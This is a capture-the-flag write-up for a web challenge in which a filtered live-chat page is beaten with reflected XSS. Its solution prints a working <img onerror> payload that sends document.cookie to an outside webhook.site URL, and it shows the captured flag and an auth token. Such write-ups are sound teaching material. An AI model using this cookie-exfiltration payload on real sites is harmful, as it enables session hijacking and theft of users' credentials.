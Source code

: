 # Cookie World Order
## Description
Good job! You found a further credential that looks like a VPN referred to as the cWo. The organization appears very clandestine and mysterious and reminds you of the secret ruling class of hard shelled turtle-like creatures of Xenon. Funny they trust their security to a contractor outside their systems, especially one with such bad habits. Upon further snooping you find a video feed of those "Cauliflowers" which look to be the dominant lifeforms and members of the cWo. Go forth and attain greater access to reach this creature!

## Solution
The website contains a "livechat" window and a video of a cauliflower. Messages typed into chat are reflected. However entering `<script>` results in the message changing to `HACKER ALERT!`. Other tags such as `<img>` and `<foo>` don't exhibit this behavior. We can reuse the webhook site from `web-gov-xss`. Inspecting the source shows that the site uses `jQuery` and the `fetch` API. We can add JS to `<img>` error handler and call `$.get` / `fetch` to perform a network request.

```html
<img src=x onerror='fetch("https://webhook.site/f610b3ae-9ba3-44d1-84f2-c5c8d7b7ec64?"+encodeURIComponent(document.cookie))'>
```

The flag is passed in the query string
`flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r};_auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz`

### Flag
`CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}`
